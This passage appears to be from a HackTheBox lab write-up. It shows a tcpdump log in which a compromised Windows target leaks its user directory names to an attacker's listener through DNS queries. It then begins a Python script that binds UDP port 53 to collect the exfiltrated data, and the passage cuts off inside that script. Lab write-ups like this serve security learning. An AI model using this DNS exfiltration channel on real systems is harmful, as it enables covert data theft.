 ```bash
20:35:04.531929 IP (tos 0x0, ttl 127, id 9016, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53805 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:06.823075 IP (tos 0x0, ttl 127, id 9017, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53806 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:08.851451 IP (tos 0x0, ttl 127, id 9018, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53807 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:10.839111 IP (tos 0x0, ttl 127, id 9019, offset 0, flags [none], proto UDP (17), length 59)
    10.10.10.106.53808 > 10.10.14.23.53: [udp sum ok] 2+ A? Administrator. (31)
20:35:12.854740 IP (tos 0x0, ttl 127, id 9020, offset 0, flags [none], proto UDP (17), length 59)
    10.10.10.106.53809 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? Administrator. (31)
20:35:14.895892 IP (tos 0x0, ttl 127, id 9021, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53810 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:16.886216 IP (tos 0x0, ttl 127, id 9022, offset 0, flags [none], proto UDP (17), length 50)
    10.10.10.106.53811 > 10.10.14.23.53: [udp sum ok] 2+ A? alan. (22)
20:35:19.474240 IP (tos 0x0, ttl 127, id 9023, offset 0, flags [none], proto UDP (17), length 50)
    10.10.10.106.53812 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? alan. (22)
20:35:21.312568 IP (tos 0x0, ttl 127, id 9025, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56757 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:23.309541 IP (tos 0x0, ttl 127, id 9028, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.56758 > 10.10.14.23.53: [udp sum ok] 2+ A? jorge. (23)
20:35:25.299775 IP (tos 0x0, ttl 127, id 9029, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.56759 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? jorge. (23)
20:35:27.338241 IP (tos 0x0, ttl 127, id 9031, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56760 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:29.355372 IP (tos 0x0, ttl 127, id 9032, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.56761 > 10.10.14.23.53: [udp sum ok] 2+ A? Public. (24)
20:35:31.523795 IP (tos 0x0, ttl 127, id 9034, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.56762 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? Public. (24)
20:35:33.646114 IP (tos 0x0, ttl 127, id 9035, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56763 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:35.669198 IP (tos 0x0, ttl 127, id 9038, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.58924 > 10.10.14.23.53: [udp sum ok] 2+ A? rupal. (23)
20:35:37.681147 IP (tos 0x0, ttl 127, id 9040, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.58925 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? rupal. (23)
```

We just listed `c:\users` and found the following directories:

- `c:\users\Administrator`
- `c:\users\alan`
- `c:\users\jorge`
- `c:\users\rupal`

Doing things manually takes a long time so I started working on a python script to automate the process. [Overcast](https://www.hackthebox.eu/home/users/profile/9682) [[Blog](https://www.justinoblak.com/)] was also working on the box and was one step ahead of me. He shared with me a script he had already created.

```python
#!/usr/bin/python3

from socket import *
from requests_futures.sessions import FuturesSession
import time
import select


s = socket(AF_INET, SOCK_DGRAM)
s.settimeout(10)
s.bind(('10.10.14.23', 53))

def recv():
    print("[+] Receiving data:")
    try:
        while True:
```
